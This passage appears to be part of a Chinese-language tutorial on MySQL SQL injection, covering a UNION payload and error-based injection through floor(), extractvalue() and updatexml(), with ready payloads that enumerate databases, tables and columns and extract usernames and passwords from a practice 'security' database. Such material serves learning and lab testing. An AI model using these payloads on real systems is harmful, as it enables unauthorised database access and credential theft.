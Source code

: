 ```
    Payload: id=-3115' UNION ALL SELECT NULL,CONCAT(0x7162717a71,0x7372786d534b54684f795a787a4e736962676675516963714d7759496751777a4b41614f57426376,0x7176767a71),NULL-- -
```



## GET 报错注入

在没有数据回显的时候，通过报错来显示具体的信息

1.**floor()函数**

原理：[Mysql报错注入之函数分析](https://blog.csdn.net/shuteer_xu/article/details/104438405)

```
注入公式（Payload为自己想获取内容的脚本）：
and(select 1 from (select count(*),concat(concat(payload),floor(rand(0)*2))x from information_schema.tables group by x)y)
and(select 1 from (select count(*),concat(concat(database(),0x7e),floor(rand(0)*2))x from information_schema.tables group by x)y)
//暴库
and(select 1 from (select count(*),concat(concat((select concat(table_name) from information_schema.tables where table_schema="security" limit 3,1),0x7e),floor(rand(0)*2))x from information_schema.tables group by x)y)
//查询表
and(select 1 from (select count(*),concat(concat((select concat(column_name) from information_schema.columns where table_schema="security" and table_name="users" limit 1,1),0x7e),floor(rand(0)*2))x from information_schema.tables group by x)y)
//查询字段
and(select 1 from (select count(*),concat(concat((select concat(username,0x7e,password,0x7e) from security.users limit 1,1),0x7e),floor(rand(0)*2))x from information_schema.tables group by x)y)
//查询字段内容
```

2.**extractvalue()函数**

extractvalue(目标xml文档，xml路径) :对XML文档进行查询的函数

第二个参数 xml中的位置是可操作的地方，xml文档中查找字符位置是用 /xxx/xxx/xxx/…这种格式，如果我们写入其他格式，就会报错，并且会返回我们写入的非法格式内容，而这个非法的内容就是我们想要查询的内容。

注意：extractvalue()能查询字符串的最大长度为32，就是说如果我们想要的结果超过32，就需要用substring()函数截取，一次查看32位

extractvalue() 函数不支持低版本 mysql

payload：

```
and extractvalue(1,concat(0x7e,(payload),0x7e))
```

**3.updatexml()函数**

updatexml(目标xml文档，xml路径，更新的内容)：对xml文档进行更新的函数

updatexml和上面的extractvlaue函数基本上相差不大，用法也相同

注：高版本的mysql已经修复了该bug
